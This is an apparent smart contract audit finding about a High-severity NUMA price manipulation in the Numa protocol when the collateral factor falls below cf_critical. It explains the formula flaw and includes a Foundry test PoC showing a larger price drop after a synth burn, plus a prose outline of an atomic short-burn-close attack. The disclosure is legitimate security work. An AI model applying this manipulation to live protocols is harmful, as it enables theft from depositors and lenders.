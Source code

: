 Small Shamrock Rook

High

# NUMA price can be severely manipulated when `CF < cf_critical`, leading to loss

### Summary

Due to the change in the NUMA pricing formula when `CF < cf_critical`, it enables an attacker to manipulate the price atomically to steal funds.

### Root Cause

**Background info for root cause**
The original formula for the NUMA price is: $\text{numaPrice} = \frac{\text{vaultCollateralValue} - \text{totalSynthValue}}{\text{numaTotalSupply}}$ (with all values in ETH)

Using this formula, when a user burns synthetics to mint NUMA, the NUMA price stays relatively stable because `numaTotalSupply` increases while `totalSynthValue` simultaneously decreases. 

However, when `cf < cf_critical`, the `totalSynthValue` is scaled by `criticalScaleForNumaPriceAndSellFee` which is calculated in the following way:
```solidity
uint criticalScaleForNumaPriceAndSellFee = BASE_1000;
// CRITICAL_CF
if (currentCF < cf_critical) {
    uint criticalDebaseFactor = (currentCF * BASE_1000) / cf_critical;

    criticalScaleForNumaPriceAndSellFee = criticalDebaseFactor;

   // OTHER CODE // 
}
```
`currentCF` is calculated via [`getGlobalCF()`](https://github.com/sherlock-audit/2024-12-numa-audit/blob/ae1d7781efb4cb2c3a40c642887ddadeecabb97d/Numa/contracts/NumaProtocol/VaultManager.sol#L922). The calculation can be summarised as `currentCF = totalVaultCollateralValue / totalSynthValue`

By applying this scaling, the new formula for the NUMA price when `currentCF < cf_critical` is:

$\text{numaPrice} = \frac{\text{vaultCollateralValue} - \text{totalSynthValue * currentCF / cfCritical}}{\text{numaTotalSupply}}$ (with all values in ETH)

Now since $\text{currentCF} = \frac{\text{vaultCollateralValue}}{\text{totalSynthValue}}$,

the formula for NUMA price simplifies to:

$\text{numaPrice} = \frac{\text{vaultCollateralValue} - \text{vaultCollateralValue / cfCritical}}{\text{numaTotalSupply}}$ (with all values in ETH)

**The issue**
When comparing this formula with the original formula, we see that this one is not dependent on the `totalSynthValue`. This is a critical issue because it means that when synthetics are burned to mint NUMA, the `numaTotalSupply` increases, but the numerator remains unchanged. This greatly decreases the NUMA price.

It can be exploited by atomically opening a short leveraged position on NUMA, burning synthetics to NUMA, and closing the short position for profit.



### Internal pre-conditions

currentCF < cf_critical

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

An attacker can atomically manipulate the NUMA price by burning nuAssets, and profit greatly by first opening a large short position on it.

They can also atomically cause rETH borrows to be liquidatable and liquidate them.

### PoC
Add the following PoC functions to `Printer.t.sol`

<details>

```solidity
function test_priceManipulationWhenCFCritical() external {
        
        // first mint some synths
        _mintAssetFromNumaInput();

        vm.startPrank(userA);
        nuUSD.approve(address(moneyPrinter), type(uint256).max);

        console.log("global CF: %e", vaultManager.getGlobalCF());
        console.log("critical CF: %e", vaultManager.cf_critical());

        // synth scaling critical debase
        uint256 snapshot = vm.snapshotState();
        _forceSynthDebasingCritical();

        console.log("AFTER FORCING CRITICAL CF");

        uint256 amountBuy = vaultManager.ethToNuma(
            1e18,
            IVaultManager.PriceType.BuyPrice
        );
        console.log("[Before Synth Burn] Numa for 1 ETH: %e", amountBuy);

        // SELLING
        uint256 nuAssetAmount = nuUSD.balanceOf(userA);
        vm.startPrank(userA);
        moneyPrinter.burnAssetInputToNuma(
            address(nuUSD),
            nuAssetAmount,
            0,
            userA
        );

        amountBuy = vaultManager.ethToNuma(
            1e18,
            IVaultManager.PriceType.BuyPrice
        );

        console.log("[After Synth Burn] Numa for 1 ETH: %e", amountBuy);


        ///////// REVERTED STATE ///////////
        vm.revertToState(snapshot); 
        console.log("REVERTED STATE TO NORMAL CF_CRITICAL");
        console.log("critical CF: %e", vaultManager.cf_critical());

        // Price check
        amountBuy = vaultManager.ethToNuma(
            1e18,
            IVaultManager.PriceType.BuyPrice
        );
        console.log("Numa for 1 ETH before: %e", amountBuy);

        // SELLING
        nuAssetAmount = nuUSD.balanceOf(userA);
        vm.startPrank(userA);
        moneyPrinter.burnAssetInputToNuma(
            address(nuUSD),
            nuAssetAmount,
            0,
            userA
        );

        amountBuy = vaultManager.ethToNuma(
            1e18,
            IVaultManager.PriceType.BuyPrice
        );

        console.log("Numa for 1 ETH after: %e", amountBuy);
    }
    
    function _mintAssetFromNumaInput() public {
        uint numaAmount = 3.5e24;

        vm.startPrank(deployer);
        numa.transfer(userA, numaAmount);
        vm.stopPrank();

        vm.startPrank(userA);
        numa.approve(address(moneyPrinter), numaAmount);
        moneyPrinter.mintAssetFromNumaInput(
            address(nuUSD),
            numaAmount,
            0,
            userA
        );
    }
    function _forceSynthDebasingCritical() public {
        vm.startPrank(deployer);

        uint globalCF2 = vaultManager.getGlobalCF();
        console.log(globalCF2);

        // critical_cf
        vaultManager.setScalingParameters(
            globalCF2 + 1,
            vaultManager.cf_warning(),
            vaultManager.cf_severe(),
            vaultManager.debaseValue(),
            vaultManager.rebaseValue(),
            1 hours,
            2 hours,
            vaultManager.minimumScale(),
            vaultManager.criticalDebaseMult()
        );
    }
```

</details>
The console output demonstrates the following:

When cf < cf_critical:
[Before Synth Burn] Numa for 1 ETH: 7.180475215933677256464e21
[After Synth Burn] Numa for 1 ETH: 6.917607405733951990574e21
Price change: **(-3.7%)**

When cf > cf_critical:
[Before Synth Burn] Numa for 1 ETH before: 7.184051273989430565546e21
[After Synth Burn] Numa for 1 ETH after: 7.132604355406555055698e21
Price change: **(-0.72%)**



This shows that the price can be significantly decreased (by burning synths to mint NUMA), due to the calculation not accounting for the total synth value when cf < cf_critical.

### Mitigation
_No response_